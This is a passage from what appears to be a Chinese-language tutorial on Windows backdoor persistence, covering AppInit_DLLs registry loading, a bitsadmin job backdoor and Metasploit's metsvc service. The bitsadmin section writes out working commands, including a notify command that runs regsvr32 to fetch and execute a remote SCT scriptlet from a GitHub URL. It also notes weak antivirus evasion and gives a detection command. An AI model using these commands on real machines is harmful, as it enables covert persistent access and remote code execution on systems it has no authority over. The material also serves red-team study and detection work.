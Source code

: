把 AppInit\_DLLs 的键值设置为我们 dll 路径，将 LoadAppInit\_DLLs 设置为 1:

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200310160955030-1685013002.png)

当存在 User32.dll 调用的时候，指定的 dll 文件就会被加载

### 0x06 bitsadmin 后门

Bitsadmin 从 win7 之后操作系统就默认包含，可以用来创建上传或者下载任务。 Bistadmin 可以指定下载成功之后要进行什么命令。后门就是利用的下载成功之后进行命令执行。

```
#创建一个下载任务：
bitsadmin /create backdoor

#添加文档：
bitsadmin /addfile backdoor c:\\windows\\system32\\calc.exe c:\\Users\\qiyou\\Desktop\\calc.exe  //为了方便起见我们直接复制本地文件

#设置下载成功之后要执行的命令：
bitsadmin.exe /SetNotifyCmdLine backdoor regsvr32.exe "/u /s /i:https://raw.githubusercontent.com/3gstudent/SCTPersistence/master/calc.sct scrobj.dll"

#执行任务：
bitsadmin /Resume backdoor


```

重启电脑之后任务会再一次被激活，大概几分钟之后我们的命令会再次执行，如果我们想让任务完成，可以执行:

```
bitsadmin /complete backdoor


```

优点：系统自带无需上传  
缺点：免杀效果一般  
排查：bitsadmin /list /verbose

### 0x07 自启动服务

自启动服务一般是在电脑启动后在后台加载指定的服务程序，我们可以将 exe 文件注册为服务，也可以将 dll 文件注册为服务

为了方便起见我们可以直接用 Metasploit 来注册一个服务:

```
meterpreter > run metsvc -A


```

运行之后 msf 会在 %TMP% 目录下创建一个随机名称的文件夹，然后在该文件夹里面生成三个文件：metsvc.dll、metsvc-server.exe、metsvc.exe

![](http://www.0-sec.org/%E5%AE%89%E5%85%A8%E6%8A%80%E6%9C%AF/Windows%E5%90%8E%E9%97%A8/img/11.png)
